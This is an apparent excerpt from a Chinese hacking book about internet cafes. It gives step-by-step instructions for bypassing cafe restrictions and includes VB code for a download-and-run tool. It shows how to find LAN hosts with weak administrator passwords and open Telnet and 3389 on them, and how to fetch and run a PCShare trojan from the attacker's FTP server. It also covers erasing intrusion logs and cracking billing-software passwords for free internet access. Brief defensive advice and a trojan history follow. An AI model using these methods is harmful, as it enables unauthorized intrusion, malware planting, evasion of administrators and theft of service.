我们选择“限制恢复”标签项，单击其中的“恢复所有限制并立即生效（一）”，一键式操作，所有的网吧限制全部搞定！如图65。

如果单击“恢复所有限制并立即生效（二）”按钮，则会提示桌面图标会消失一段时间。其实此时是工具结束了 EXPLORER.EXE 这个桌面进程，所以桌面图标全部会消失一下，然后又恢复，放心大胆地单击“确定”吧，如图66。


图66

##### 二、网吧黑手

其实还有一款比较有意思的工具，那就是“网吧黑手”，可以到“http://www.3800hk.com/Soft/gjsj/1282.html”下载，如图67。


图67

下载运行之后，程序显示为一个黑色巴掌的样子，果然是“黑手”，呵呵。各项操作明确地显示着，如图68，我就不过多介绍了。


图68

##### 三、网吧突破小工具

这里再推荐下我编写的一款小工具，可以到 http://dragonkiss.ys168.com 下载，如图69，就是前面也出现过的“网吧突破小工具”。


图69

它可以实现 CMD 命令提示符的访问，这个对于网吧中学习黑客技术的读者朋友来说是巨大的福音，如图70，同时它还可以打开注册表，如图71，并且可以访问盘符，如图72，还支持网络下载功能，这里就不过多介绍了。


图70

图71


图72

##### 四、行者无疆

大家还可以下载一款工具，名为“行者无疆”，运行之后可以访问磁盘，如图73，并且可以运行指定的程序，如图74。


图73

图74

使用它的“INTERNET属性打开”功能，则可以打开“INTERNET属性”，然后单击“自定义安全级别”设置启动下载，如图75。

##### 五、网吧还原杀手


图75

但重启后系统却被网吧还原了，造成前功尽弃。

这里就推荐“网吧还原杀手”这款工具，可以到 **http://dragonkiss.ys168.com** 下载（网上提供的下载链接好多都是无效的），如图76。


图76

运行该软件可以对还原卡进行破解，它提供了五款还原卡破解的工具，如图77，并且还支持对还原精灵的破解，如图78。


图77

图78

#### 2.1.7 破解工具DIY

上面介绍了很多网吧的破解方法和破解工具，大家有没有觉得使用别人的工具总是寄人篱下呢？不如编写一个属于自己的网吧破解工具，这样会让自己拥有成就感。编写一个网吧破解工具其实也是很容易上手的，因为这其中只用到了编程里很小的一块知识。下面，我就选择 Visual Basic（以下简称 VB）这个编程软件来为大家简单演示一下，想详细了解 VB 的知识请参阅相关书籍资料或上网搜索。

首先打开 VB 编程软件，新建工程后选择左边的相关控件放到右侧的窗体上进行设置，如图79。


图79

选择窗体上的相关控件就可以设置其属性，比如通过设置按钮组件的“CAPTION”属性来修改它的标题，如图80。


图80

在设置好相关按钮等控件的基本属性后，就该对这些按钮的事件进行代码编写了。双击窗体，输入如下代码，即可编写出程序，由于程序代码已经注释得非常详细，这里就不过多介绍了。

下面是相关按钮的事件代码：

```vb
'API函数声明，这个函数可以用来下载网络上的其他文件
Private Declare Function URLDownloadToFile Lib "urlmon" Alias "URLDownloadToFileA" _
    (ByVal pCaller As Long, _
     ByVal szURL As String, _
     ByVal szFileName As String, _
     ByVal dwReserved As Long, _
     ByVal lpfnCB As Long) As Long

Private Sub Command1_Click()
    Shell "explorer.exe c:", vbNormalFocus   ' 使用shell函数调用资源管理器来打开C盘
End Sub

Private Sub Command2_Click()
    Shell "explorer.exe d:", vbNormalFocus   ' 同理，打开D盘
End Sub

Private Sub Command3_Click()
    Shell "explorer.exe e:", vbNormalFocus   ' 同上，打开E盘
End Sub

Private Sub Command4_Click()
    Shell "cmd.exe", vbNormalFocus           ' 使用shell函数打开命令提示符
End Sub

Private Sub Command5_Click()
    Shell "command.com", vbNormalFocus       ' 使用shell函数打开command.com
End Sub

Private Sub Command6_Click()
    Shell "regedit.exe", vbNormalFocus       ' 使用shell函数打开注册表编辑器
End Sub

Private Sub Command7_Click()
    If Text1 = "" Or Text2 = "" Then
        MsgBox "请输入地址！"
        Exit Sub
    Else
        URLDownloadToFile 0, Text1, Text2, 0, 0   ' 调用API函数实现下载
        MsgBox "下载成功！"
    End If
End Sub

Private Sub Command8_Click()
    If Text2 = "" Then
        MsgBox "请输入文件！"
        Exit Sub
    End If
    Shell Text2.Text, vbNormalFocus   ' 用来执行下载之后的文件
End Sub
```

以上代码编写完毕后就可以按 F5 运行程序了，此时还可以修改我们的程序图标。先选择窗体，然后来到“属性”设置窗口找到“ICON”属性，单击旁边的“...”按钮就可以选择一个 ICON 图标进行加载，如图81、图82。


一切设置完毕后，选择“文件”菜单下的“生成 XXX.exe”，即可生成一个 EXE 文件，这样就编写出来一个属于自己的网吧破解工具，如图84，也算是一份 DIY 精神的写照吧。还在等什么，赶快自己也实际操作下吧，然后把 EXE 程序发送给你的好朋友，大家分享吧。


图83


图84

### 2.2 自由翱翔网吧内网

#### 2.2.1 从弱口令到系统权限

黑客在入侵网吧前，都会首先对网吧的部分限制做下破解，比如为了使用黑客们经常使用的 CMD 命令提示符，往往要在组策略中把“阻止访问命令提示符”规则“禁用”，也就是让当前用户可以使用 CMD，如图85。


图85

双击“阻止访问命令提示符”列就可以打开其属性对话框，在其中单击“已禁用”单选钮，然后单击“确定”按钮就可以让 CMD 命令提示符使用了，如图86。


图86

此时，即可在桌面新建一个 **CMD.BAT** 文件，内容为“CMD.EXE”，然后双击该 BAT 文件即可调出 CMD 窗口，通过 CMD 窗口我们就可以运行许多命令了。

我通过 CMD 窗口输入 **ipconfig** 命令得到了本机的 IP 地址，然后把同本机一个 C 段的 IP 地址输入到“啊D网络工具包”中进行“肉鸡查找”，这样就有可能扫描出远程主机的管理员账户和密码信息。

此时可以选中扫描出的主机，然后按鼠标右键，在弹出的快捷菜单中选择“打开对方的 TELNET”，如图87。


图87

使用此功能你可以启动远程的 Telnet 服务，并且还可以修改远程 Telnet 的端口，程序默认修改为 51 端口！程序原理是启动微软自己的 TELNET，不用另外上传软件（想要修改和启动远程的 Telnet，你必须用管理员密码和账号登录，同时服务器开放 IPC$ 共享）。

此时，在打开的 TELNET 服务窗口中，单击“启动”按钮即可启动远程计算机的 TELNET 服务，如图88（请使用后恢复别人的 TELNET 设置，否则容易被管理员发现）。


图88

## 第二章 网吧黑客之内网横行

这时会弹出一个对话框提示“TELNET 启动完成”，单击“确定”按钮即可开始登录对方的电脑，如图89。


图89

接着会自动弹出 TELNET 的 CMD 窗口，输入刚才的账户和密码即可开始登录，如图90。


图90

此时在 TELNET 中输入 **ipconfig** 命令，可以看到 IP 是“192.168.248.128”，也就是我们扫描出弱口令的目标主机，看来 TELNET 登录成功了，如图91。


图91

接下来我们就可以在本地搭建一个 FTP 服务器，然后通过 TELNET 让远程主机下载我们的木马程序并运行。这里我使用流星 MINIFTP 服务器软件进行 FTP 服务的搭建，初次运行时会弹出 WINDOWS 防火墙警告窗口，单击“解除阻止”按钮放行即可，如图92。


图92  
图93

接着在“是否允许匿名登录”前打勾，这样就算不输入账户和密码也可以登录。一切设置完毕之后，单击“启动”按钮开始 FTP 的运行，如图93。

由于本地计算机的 IP 地址是 192.168.248.1，所以在 TELNET 中要输入 **FTP 192.168.248.1** 命令，这样就可以在 TELNET 中登录本地开放 FTP 服务的计算机。在提示输入账户和密码时直接回车即可，因为可以匿名登录，如图94。


图94

登录了本地的 FTP 服务器之后，我们就可以在本机首先配置一个 PCSHARE 的木马服务端了，如图95。


图95

此时，把这个配置好的木马服务端放到本地 FTP 服务器的根目录下面，也就是 E 盘根目录中即可。接着，来到 TELNET 中，输入 **DIR** 命令可以看到在 FTP 服务器上已经存在一个 MM.EXE 文件，如图96。


图96

现在要做的就是把这个 MM.EXE 文件下载到 TELNET 主机上面。提交命令“**GET MM.EXE C:\\MM.EXE**”，也就是使用 FTP 的 GET 命令把 FTP 主机上面的 MM.EXE（MM.EXE 在根目录中，也就是在本机的 C 盘目录中）下载到 TELNET 主机上面，如图97。


图97

此时提交 **BYE** 命令，退出 FTP，然后在 TELNET 中输入“**C:\\MM.EXE**”，也就是运行“C:\\MM.EXE”木马文件，如图98。


图98

然后来到 PCSHARE 的控制界面，可以看到主机已经顺利上线了，如图99。


图99

使用完了 TELNET 命令之后，记得在啊D工具包中关闭 TELNET，如图100！之所以要在使用完毕之后关闭 TELNET 服务，乃是黑客们为了不让网络管理员发觉自己的主机中了木马，这可是增加木马寿命的一种博弈手段。


图100

上面介绍了使用 TELNET 来种植木马，一般的黑客都会比较喜欢这样的方式，其实在啊D工具包中还有一个通过 IPC$ 管道来种植木马的功能，如图101。


图101

首先单击“检测共享”，提示“读取共享目录信息完成”，如图102。然后单击“本地文件”后的“...”按钮，选择一个木马文件，按“开始”按钮，如图103。成功之后，会提示“1分钟后将自动运行任务”，如图104。


其实局域网中的安全性能，笔者一直都不敢恭维，所以内网渗透一直都能够所向披靡。文章中所介绍的方法也可运用到入侵网站 Web 服务器后的内网渗透，至于具体操作，就是八仙过海，各显神通了！

这里虽然介绍了黑客是如何入侵网吧主机的，但是读者阅读完本节后应该明白：这次黑客能够成功入侵，主要是依靠了 WMI 漏洞，利用管理员弱口令实现连接并且开启 TELNET 服务。

要阻止黑客入侵，最好的方法莫过于从源头上进行阻止。所以首先不能使用一些常见的密码，比如“123”、“123456”等，更加不能使用空口令。其次最好修改默认的管理员名称，比如不要使用“ADMIN”、“ADMINISTRATORS”等常见的管理员名称。这样对方一般就无法有效地暴力破解我们的账户和密码了，从而从源头上遏制了黑客的入侵。

同时，因为服务器没有装杀毒软件，也是本次入侵顺利实现的条件，所以暴露在网络上的主机一定要装有杀毒软件，并且定时定期进行病毒库的升级。对于个人电脑，推荐使用国产的瑞星或者俄罗斯的卡巴斯基（KAPERSKY）杀毒软件。

#### 2.2.2 共享入侵

混迹网吧自然要进行信息侦探，于是乎，拿出一款蓝色扫描器进行端口扫描，发现一个 IP 地址 192.168.248.128 开放了 445 共享端口，如图105。


#### 小知识

共享端口一般由系统的公共服务或相关软件开启，以下端口都可能是系统开放的共享端口：

- TCP 139
- TCP 445
- UDP 137
- UDP 138

知道开了共享，那么就可以拿出 SHED 来扫描共享信息了。扫描之后得到了共享的一些基本信息，如图106。


图106

但是使用 SHED 双击打开扫描到的主机却提示要求输入密码，怎么办呢？这里推荐使用 IPCSCAN 这款工具，它可以扫描远程主机的管理员账户和密码信息。运行软件，输入 IP 地址之后，单击“SCAN”按钮进行扫描，一会儿就可以看到扫描出的远程计算机管理员弱口令，如图107。


图107

现在输入得到的管理员账户和密码即可顺利登录远程计算机的共享目录了，如图108。


图108

这样我们就进入了对方的共享目录，可以查看里面是否有好的资料或者信息，如果对方的目录可以写入的话，可以上传一个木马文件进去，并起一个比较有诱惑性的名字，吸引对方去点击，从而使木马运行。

由于我们使用 IPCSCAN 扫描得到了远程计算机的管理员账户和密码，现在就可以开始更加好玩的渗透方法了。首先请出我们的 RECTON 这款工具，在远程主机处输入 192.168.248.128，在用户名和密码那里输入刚才得到的管理员账户和密码，如图109。


图109

然后单击“开始执行”，可以看到如下提示：

```
正在连接192.168.248.128 .....
连接成功！
正在检查操作系统类型！
操作系统类型为 Microsoft Windows 2000 Server
正在写注册表！
Terminal服务已经成功开启！端口：3389 重启后生效！
```

这样就表示对方计算机的远程终端服务被我们开启了，现在只要等待对方的计算机重启之后，就可以开始控制它了。

可能很多读者朋友等不及对方主机重启就想控制对方计算机，这里我们可以利用 RECTON 的远程上传执行功能，使用 IPC 管道上传一个木马程序，如图110。


图110

同时，为了在入侵之后不被细心的管理员查找出蛛丝马迹，还可以使用 RECTON 的入侵日志擦除功能，如图111。


图111

在“日志”项里单击“开始执行”按钮之后会出现如下提示，这样我们的入侵日志就会被删除掉了。

```
正在连接 192.168.248.128 ......
连接成功！
正在清除所有日志 ......
所有日志已经成功清除！
```

现在就是等待对方的计算机重启，这样我们就可以找到远程桌面连接，如图112。


图112

在弹出的“远程桌面连接”窗口中输入远程计算机的 IP 地址 192.168.248.128，然后单击“连接”按钮，如图113。


图113

此时马上就弹出了 3389 远程登录窗口，输入刚才 IPCSCAN 扫描出来的管理员账户和密码即可登录，如图114。


图114

登录之后一个可以进行 3389 远程操作的计算机就诞生了，如图115。


图115

### 2.3 将究竟上网进行到底

经常在网吧上网的读者朋友每年都要支付“高昂”的上网费用吧？本节就来教大家如何在网吧里突破上网计费软件的限制，实现免费上网。

#### 2.3.1 安全模式下的免费上网

大家一定知道 WINDOWS 系统的“安全模式”吧？其实安全模式的工作原理是在不加载第三方设备驱动程序的情况下启动电脑，使电脑运行在系统最小模式，这样用户就可以方便地检测与修复计算机系统的错误。

这样，我们破解网吧限制的思路就出现了，只要在安全模式下进入系统，就不会加载很多网吧管理软件，从而也就绕过了网吧管理软件的管理。下面再来讲解下安全模式下的用户。

在正常登录系统的时候，往往有个默认的 ADMINISTRATOR 用户，这个用户拥有系统管理员权限。在安全模式下也有这个用户，但是安全模式下的 ADMINISTRATOR 却是空口令，设置了密码也没有用，因为这两个用户其实是不同的。所以这就给我们获得安全模式下 ADMINISTRATOR 的密码得到了一个契机。

在这种模式下获得密码一般有两个方法：第一个是安全模式下的 ADMINISTRATOR 没有设置密码，自然就是空口令；第二个是设置的密码和系统下面的 ADMINISTRATOR 的密码相同。

然后重新登录安全模式，测试这个密码是否为安全模式下面的管理员密码。现在打开 LC4（个人觉得 LC4 比 LC5 稳定，而且操作方便），单击“CREATE A NEW LC4 SESSION”（开启一个新会话），也就是单击工具栏的第一个按钮，如图116。


图116

然后找到“IMPORT”（导入）菜单，选择下面的“IMPORT FROM LOCAL MACHINE”（从本机导入）子菜单，如图117。


图117

经过上面的操作，在 LC4 列表中就可以看到当前系统的用户列表了，但是很多用户的密码确实没有识别出来。此时单击“SESSION”（会话）菜单下的“BEGIN AUDIT”（开始猜解）子菜单，就会调用 LC4 的默认字典文件进行账户的密码破解了，如图118。


图118

最后，可以看到破解出 ADMINISTRATOR 和 GUEST 两个账户的密码，分别为 123 和 ABC，如图119。


图119

现在只要在启动计算机时按下 **F8 键**（或者按住 **Ctrl 键**），就会出现操作系统多模式启动菜单，选择“Safe Mode”就可以将计算机启动到安全模式，如图120。


图120

这时就会要求输入管理员的账户和密码，我们在用户名处输入 **ADMINISTRATOR**，在密码处输入 **123**，最后单击“OK”按钮开始登录，如图121，成功进入桌面，如图122。


图121


图122

登录后，因为安全模式只加载必要的驱动和硬件设备，所以鼠标可能无法使用，但是此时使用键盘的方向键就可以打开 IE 进行浏览了。如果要输入网址，可以在打开 IE 后，使用 **ALT+D** 组合键把焦点定位到 IE 输入栏，然后输入网址后按回车就可以浏览了。

#### 2.3.2 攻破密码！想上就上！

万象网管是款被广泛使用的网吧管理软件，至今其 2004 版在中小型网吧还大量被使用着。在运行的软件图标上按鼠标右键，可以弹出它的管理菜单。选择“设置”菜单下的“系统设置”子菜单，可以对客户机进行管理，如图123。一般情况下，在弹出的窗口中是要输入密码的。当然，某些粗心的网管可能没有设置密码，如图124。如果设置了密码，那么如何破解呢？可以来到注册表的“[HKEY_CURRENT_USER\Software\Sicent\wx2004C{t}]”处，如图125，其中“!!! RUNSETCIPHER”后面的字符串就是经过 MD5 加密的万象网管密码。


图123


图124


图125

把这些密码复制出来，拿到 WWW.CMD5.COM 或者 WWW.XMD5.COM 去破解，只要“人品”不错，就可以得到管理员的密码了。

输入密码进入万象设置界面，修改其中的协议为“TCP/IP”（默认为 IPX 协议），端口（默认为 11011）为 4444，然后选择“检测与服务器连接失败后”，再把“将执行”选择为“不处理”，最后去掉“增强客户端保护”选择项的勾，单击“确定”按钮保存设置，如图126。


图126

经过这样设置后，本机就和服务器之间断开连接了，也就不会再计费了。但是大家也不要上得太久，时间越久，被暴露的危险性就越高。

### 2.4 网吧防毒防黑 110

#### 2.4.1 网吧系统还原

作为网络管理人员，要管理一个几百台电脑的网吧局域网也不算太容易，加上现在的网络世界里凶神恶煞常年出没，所以一定要给网吧安装上比较可靠的还原软件。“冰点还原精灵”就是一款非常不错的软件，大家可以到 `http://skycn.com/soft/12844.html` 去下载，如图127。同时，对于一些个人用户，也可以使用本款软件来保护自己计算机系统的安全。


下载安装软件进行安装，首先可以选择要保护的盘符，我这里只选择保护 C 盘，如图128。然后单击“INSTALL”按钮开始安装，在出现的确认页面中选择“I ACCEPT”，表示接受协议，如图129。


最后，单击“FINISH”按钮就可以完成安装，如图130。这时系统会自动重启，再次进入系统后，可以看到屏幕右下角系统托盘处出现了一个“熊猫”图标，如图131，就是图中从右往左数的第 2 个，那就表示软件已经启动。


现在同时按下 **CTRL+ALT+SHIFT+F6** 组合键即可调出登录窗口，初始密码为空，单击“OK”按钮即可进入，如图132。


图132

进入之后就可以设置我们的管理员密码，如图133。设置完毕后单击“OK”按钮，提示新的密码被成功设置，如图134。


图133


图134

这样，我们的系统在下次重启之后就会被还原，即使碰到病毒和木马的侵袭也不再害怕了。有时候我们需要给系统安装新的软件或者保存一些资料，那么如何让系统不再还原呢？首先打开软件，登录之后来到“Boot Control”（引导控制）项，选择第三个“Boot Thawed”，如图135，然后单击“OK”按钮，此时重启电脑。


图135

重启之后，可以看到屏幕右下角系统托盘处的“熊猫”图标被打上了红叉，说明冰点已经没有保护我们的系统了，如图136，现在我们对系统的操作都不会被还原了。


图136

本以为可以高枕无忧了，网络中又出现了一款名为机器狗的软件，可以穿透我们的还原系统。那么如何防御它们呢？可以到 `http://www.360.cn/down/soft_down14.html` 下载一款 360 出品的还原保护器，如图137。

## 第三章 网吧黑客之内网横行


图137

下载回来后执行文件，界面如图138。我们单击“安装”，如图139，首先出现“安装提示”，然后单击“是”就可以了。安装完成后提示重启计算机，单击“是”即可，如图140。


图138


图139


图140

在重启计算机完成安装之后，对于高级用户还提供了“高级设置”按钮，找到安装文件同目录下面的 GFCfg.INI 文件就可以对软件进行一些高级设置，如图141。


图141

#### 2.4.2 网吧数据备份

对于数据，保证它安全的方式莫过于备份了，因为就算原始数据被破坏，只要有备份数据存在，一样可以还原！至于数据的备份，首推 GHOST 了。但是 GHOST 对于很多对计算机不算很熟悉的人来说，操作起来非常不方便，尤其还是 DOS 下面的操作，这更让很多读者朋友望而生畏！

现在，出现了“OneKey Ghost”这款工具，图形操作界面让所有的计算机用户都能够轻松上手使用。运行工具，界面如图142，首先勾选“备份”选项，然后选择要备份的盘符，我选择的是 C 盘。


图142

然后单击“保存”按钮，选择一个保存的位置（比如 F 盘），最后单击“确定”按钮即可开始全自动化的备份了。此时计算机会自动重启，重启之后就会自动调用 GHOST 内核开始备份。

备份完成后，重新启动计算机进入系统，可以看到在选择的保存位置（F 盘）已经有了一个备份文件，如图143，以后只要把这个 .GHO 文件保存到一个安全的地方，一旦系统被破坏或者被木马病毒入侵，就可以拿这个备份文件进行还原了。


图143

还原的方法也很简单，依然使用这个工具，运行后勾选“还原”选择项，如图144。然后单击“打开”按钮，选择备份的 .GHO 文件，如图145，最后单击“确定”按钮即可开始还原操作。


图144


图145

此时也会提示重新启动，单击“是”按钮即可。

#### 2.4.3 网吧下载管理

网吧里面有时为了不让一些计算机用户占用网络带宽，所以限制用户下载。那么如何做到有效地防止计算机用户下载呢？我们可以打开组策略，然后找到“不要运行指定的 WINDOWS 应用程序”（在左侧“系统”列的子列中），如图146。


图146

双击该项，在弹出的属性窗口中依次选择“已启动”→“显示”→“添加”，然后在出现的“添加项目”对话框中输入迅雷等下载工具的文件名即可，如图147。

然后一路单击“确定”对设置进行保存。这样，以后就算别人安装了迅雷，也会弹出如图148的提示窗口，这样就有效地防止了对方运行指定的程序。

同样，我们可以使用 IFEO 的方法来实现对指定程序的禁止运行。找到如图149中的注册表路径（HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\Thunder），新建一个项为 **THUNDER.EXE**，接着在右侧新建一个名称为 **DEBUGGER** 的关键字，同时把它的值修改为一个不存在的文件。


现在，如果把计算器文件（一般是 calc.exe 文件，大家可以在系统中进行搜索查找到）复制到 C 盘下面，并且保存为 **TEST.EXE**，那么当网吧计算机用户调用迅雷的时候，弹出来的不是迅雷，而是计算器了！如图150。


#### 小知识

> 所谓的 IFEO 就是 Image File Execution Options 的缩写，是位于注册表的 HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options。这个项主要是用来调试程序用的，对一般用户意义不大。如果在这个项下建立一个名为 qq.exe 的项，然后在其下建立一个键为 debugger，那么当运行进程为 QQ.EXE 的程序时，就会首先启动 DEBUGGER 下面的程序路径，而非你运行的程序所在的路径。

现在我们编写一个注册表文件来禁止 QQ 运行，代码如下：

```reg
Windows Registry Editor Version 5.00
[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\qq.exe]
"debugger"="debugger.exe"
```

将以上代码保存为 .reg 文件后运行，就可实现对 QQ 的禁止了。上面介绍的 IFEO 方法是使用的手工方式，这样修改起来比较繁琐，我们可以选择相关工具来替代手工操作。这里推荐使用“全面禁止程序运行”工具，如图151。


图151

单击右侧的“...”按钮即可选择要禁止运行的程序，然后在弹出的对话框中选择文件即可，如图152，我选择的是迅雷。


图152

选择好后返回主界面单击“禁止运行”，这样设置后，一旦运行迅雷文件，就会弹出如图153的提示。


图153

这款软件的工作原理其实就是修改了注册表中我们前面所说的设置，它在注册表的 HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\ 路径下创建一个 Thunder.exe 项，然后新建一个 DEBUGGER 关键字，并且赋值为 THUNDER.EXE。由于这个 THUNDER.EXE 没有路径，所以当然会运行错误，也就导致迅雷无法运行了，如图154。


图154

如果大家需要解除运行限制，只需要选择软件左侧的禁止程序，然后单击“解除禁止”按钮即可，如图155。


图155

### 2.5 小结

本章系统地介绍了网吧破解的方方面面，同时给出了网吧主机安全的建议和具体方法，并且提示网络管理员要注意网吧以及内网的数据安全和系统还原。请大家记住：只有树立网络安全意识，才能有指导性地去提高网络的安全性。

## 第三章 木马黑客之终极无间

计算机世界中的特洛伊木马病毒的名字由《荷马史诗》中的特洛伊战记得来。故事说的是希腊人围攻特洛伊城十年后仍不能得手，于是阿迦门农受雅典娜的启发：把士兵藏匿于巨大无比的木马中，然后佯作退兵。当特洛伊人将木马作为战利品拖入城内时，高大的木马正好卡在城门间，进退两难。特洛伊人决定隔天拆掉城门，于是都去庆祝战争胜利去了。到了夜晚，希腊人的军队突然返回，木马内的士兵也爬出来，与城外的部队里应外合而攻下了特洛伊城。

计算机世界的特洛伊木马（Trojan），是指隐藏在正常程序中的一段具有特殊功能的恶意代码，是具备破坏和删除文件、发送密码、记录键盘和 DoS 攻击等特殊功能的后门程序。

本章中，我们就从木马的原理、使用以及对抗上来讲解木马的方方面面。同时，笔者相信，只有通过对木马和病毒的了解，我们才能够采取有效的防御措施，将木马和病毒扼杀在摇篮之中。


### 3.1 木马屠城记

在讲解木马上线之前，请先允许笔者科普一下：木马发展到今天已经经历了四代，第一代的木马功能相当简单，典型的有 netSpy 等等，早已退出了历史舞台，所以不再过多介绍。在国内，冰河和广外女生被认为是标准的第二代木马，他们出现于中国 hacker 技术发展的早期，曾经占领了中国远控程序的大半江山。我们目前普遍使用的都是第四代木马，技术发展也比较成熟了，一般采用 API 钩子、注入进程等隐藏自身的一些技术。“灰鸽子”虽然功能强大，却属于第三代木马，除了隐藏自身和避免查杀逊于第四代木马之外，基本上配置和第四代木马都差不多。

#### 3.1.1 特洛伊和它的木马

土耳其的特洛伊考古区，是著名的文化遗产，在 1998 年被列入世界遗产名录，在那里还矗立着一匹木马，仿佛向世人炫耀它当年的丰功伟绩！如图1。


图1

回到本世纪，沃尔夫冈·彼得森（Wolfgang Petersen）导演在 2004 年的电影史诗巨作《特洛伊》，再一次将特洛伊木马呈现在世人眼前，它讲述了希腊人是如何通过使用木马来攻占特洛伊城邦的，如图2。


图2

当年的木马现在已经不复存在，但是，使用木马这种类似间谍的工具攻击目标的思想，却开始在计算机网络中蔓延开来！

#### 3.1.2 近代木马与恶意程序发展史

大概是在 1986 年，世界上第一个计算机木马出现了，它就是 PC-Write 木马。这种木马伪装成共享软件 PC-Write 的 2.72 版（事实上，编写 PC-Write 的 Quicksoft 公司从未发行过 2.72 版），一旦用户信以为真运行该木马程序，那么他的下场就是硬盘被格式化。

而自从 BO、冰河等木马诞生以来，国内的木马历史便拉开了序幕。下面就以技术的发展突破作为界限，分别说说它们的历史和发展趋势。

##### 1、系统里的秘密程序

早期的特洛伊木马后门先驱可以追溯到 1997 年那个网络在国内还未大量普及的时代。在当时，初期阶段的特洛伊木马技术在国外早已热火朝天，而国内众多用户却还在用着拨号上网偶尔浏览新闻和下载文件，只有少数用户知道并研究外国传入的英文界面特洛伊木马程序 BO 和 SubSeven 等。

木马技术始终属于少数人手里的“高科技”入侵工具，直到国产木马“冰河”的出现和随后的几个版本升级，才标志着国内用户迎来了网络木马的混沌时代。

冰河在 2000 年停止更新时放出的最后一个版本更是让大家第一次体会到了远程控制他人计算机的心跳感觉，也在短时间内掀起了一股热潮。一时之间，国内许多计算机都对外开放了被冰河驻扎的标志——7626 端口，并且大量的扫描报告也都指向 7626 端口，随后众多带有模仿性质和改良优化的其他后门也相应出现。

这个时代的后门入侵是极其简单的，究其原因，是由于那时候网络防火墙的雏形仍在探索发展阶段，大部分网络用户都是处于毫无防备的状态下。而且那时候又有几个人明白所谓的“安全问题”是什么东西呢？于是许多人依靠这些木马入了门。

这一时期的木马以现在的时代眼光来看，都是极其简单的入门级产品了，但是由于当时的主流系统是安全性马马虎虎的 Windows 9x 系列，这些木马只需要简单的一些功能函数就实现了在任务管理器中的隐藏。而且由于当时并没有太多相对强大的第三方任务管理器，加上用户自身安全意识比现在相对更低，于是造就了一个木马招摇过市的时代。

从技术上看，这个时期的木马后门普遍都是运行于用户层（Ring3）上，它们隐藏了窗体，并将自己在 Windows 9x 中注册为“服务程序”（RegisterAsService）的后台网络应用程序，而且大部分并不存在自我保护功能。就连冰河的自我保护也是更改了一些常用文件，如文本文档等类型的打开方式来实现的。

这一时期的木马启动项也非常简单易找，就现在的木马发展程度来说，它们充其量只能作为初学者的木马查杀防范入门练习教材罢了。

首先这些木马的标准运行环境是毫无安全防御可言的 Windows 9x 系统，到了 NT 架构系统上甚至会直接报错而退出运行，只有少数木马对 NT 架构系统做了一点额外设置，以便绕过 Windows 9x 专有的系统函数来确保运行顺利。但是这样的后果就是，它们直接在 NT 系统自带的任务管理器中被暴露，并简单被终结掉。

其次，用户只需要找到它的进程并终结，然后简单地清理一下启动项残留数据就完成了对木马的查杀——大部分此类型木马的全部家当就是一个能够自我复制到系统目录，并设置自启动项的可执行程序而已，只要这个程序消失，就等于把整个木马扫地出门了。

然而，由于这一时期的用户群体几乎没有安全意识，和相应反病毒产品领域的空白，这一批木马技术先驱却为后面的木马发展打下了不可忽视的基础。

对于第一代木马的查杀十分简单，使用现在的任意一个任务管理器，甚至 Windows 2000/XP 自带的任务管理器就能发现其进程，然后通过与注册表启动项 Run、RunServices 的对比判断即可找出可疑文件，最终直接终结其进程，删除对应文件和启动项信息，并检查 EXE 和 TXT 等文件的关联方式是否被“后门恢复程序”更改即可。

##### 2、绕过防火墙的反弹木马

但是好景不长，随着越来越多用户对信息安全有了隐隐约约的需求，和安全厂商适时推出了用于屏蔽过滤外部异常访问扫描的网络防火墙产品以后，许多用户即使对计算机处于朦胧状态，也会给自己安装一个网络防火墙产品——虽然用户可能根本连它的用处是什么都不知道。

其次，网吧作为一种大众普遍上网场所也开始流行起来，初涉木马的试探者们很快发现，他们无法成功对网吧里的电脑进行连接控制了，但是在网吧里使用木马连接 Internet 上的受感染机器却又不存在这个问题，这是为什么呢？

因为网吧的内部网络环境是一个局域网，它使用私有 IP 地址进行通讯，对外部网络的访问出口是通过代理服务器（Proxy）或路由器 NAT（网络地址转换，Network Address Translation）方式实现的。

这两种方法都会屏蔽掉内部网络，所有内部网络中的计算机对于公共网络来说都是不可见的。也就是说，无论攻击者在网吧内部什么机器上种植了木马，只要他离开了网吧到外面的公共网络中意图对这个木马进行连接控制，他就会发现，无论如何努力都做不到了。这是由于网吧对外提供的只是一个由网络接口设备负责通讯和地址转换的公共网络 IP，用户在公共网络中执行的访问操作都只会被视为对这个网络接口设备的访问，而这个网络接口设备上是不可能存在用户刚才在网吧内部机器中设置的木马的。而且由于连接条件匹配不充分，它也不会把这个连接请求转交给内部网络中任何一台计算机，所以网吧内部网络里植入的木马根本就收不到来自外部的连接控制请求，自然也就无法工作了。

这个现象直接导致了基于 C/S（客户端/服务端）模式的传统木马在遇到网吧或者类似的局域网环境时无功而返，同时一部分安装了网络防火墙的用户也由于防火墙默认屏蔽了外部网络访问的大部分端口而幸免于难，在相当一段时间内造成了传统木马一蹶不振的局面。

然而好景不长，在经过一段时间的沉寂后，一种新型的木马连接概念被提出来了，虽然其原理也是基于 C/S 模式的网络连接，但是在连接时却将态度转了 180 度：这次的入侵，发出第一个连接请求的不再是远程控制者使用的客户端，而是受害者的木马服务端。

第一个使用此概念的木马名为“网络神偷”，被设计用来从局域网内往外盗取文件数据。这个概念被业界称为“端口反弹”，它的实现思路是将以往的 C/S 模式来了个逆转：

> 客户端开启一个本地端口来监听远方连接请求，而服务端则是通过一些方法获得客户端 IP 以后主动来连接它，最终实现远程控制。

这个思路一下子就把网络防火墙打了个措手不及，因为早期的防火墙开发者并未考虑过通过本机主动发起的连接也会出现这种意料之外的情况。而对于网吧等局域网环境，防火墙只是会把这一行为视作用户发出的一次正常网络请求。于是，这个来自心灵地狱的连接请求最终和入侵者碰了头，连接成功后发生的事情就和传统木马所要做的所有事情一模一样了。

在早期网络防火墙尚未出现记录本机主动连接请求的功能之前，要判断自己的机器上是否存在反弹型木马是一件比较困难的事情。因为使用端口反弹概念的服务端并不主动开放任何端口连接，在其未发起入侵连接之前，用户无法得知自己机器进程里是否有异常。直到它与远方入侵者建立了连接，用户才有可能在网络程序状态检测工具里看到一些对外连接的进程信息。可是这样主动对外连接的进程也太多了，如 Internet Explorer、Foxmail、QQ 等也都是主动对外连接的，一般的用户根本就无法将其判断分析出来。

